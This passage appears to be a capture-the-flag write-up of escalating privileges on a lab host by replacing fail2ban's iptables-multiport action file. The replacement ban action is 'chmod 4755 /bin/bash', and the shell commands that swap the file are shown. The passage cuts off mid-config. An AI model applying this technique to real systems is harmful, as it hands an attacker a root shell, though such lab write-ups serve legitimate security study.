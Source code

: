 ```

From ```/etc/fail2ban/jail.conf``` I could confirm that the ```sshd``` protection will fallback to the default settings of ```fail2ban``` and trigger the ```iptables-multiport``` action.

```
# Default banning action (e.g. iptables, iptables-new,
# iptables-multiport, shorewall, etc) It is used to define
# action_* variables. Can be overridden globally or per
# section within jail.local file
banaction = iptables-multiport
banaction_allports = iptables-allports
```

I could not edit the existing ```iptables-mulitport.conf```, but i was able to delete it and copy a ```malicious``` config I created in ```/tmp``` into the directory. 

Note: This was a bit fiddely because some ```cronjob``` or script reset the folders contents every few minutes.


We need to add the following payload into the rule to set an SUID for ```/bin/bash``` when the ```actionban``` triggers:

```actionban = chmod 4755 /bin/bash```


```
michael@trick:/etc/fail2ban$ rm -rf /etc/fail2ban/action.d/iptables-multiport.conf 
michael@trick:/etc/fail2ban$ cp /tmp/iptables-multiport.conf /etc/fail2ban/action.d/
michael@trick:/etc/fail2ban$ cat /etc/fail2ban/action.d/iptables-multiport.conf 
# Fail2Ban configuration file
#
# Author: Cyril Jaquier
# Modified by Yaroslav Halchenko for multiport banning
#

[INCLUDES]

before = iptables-common.conf

[Definition]
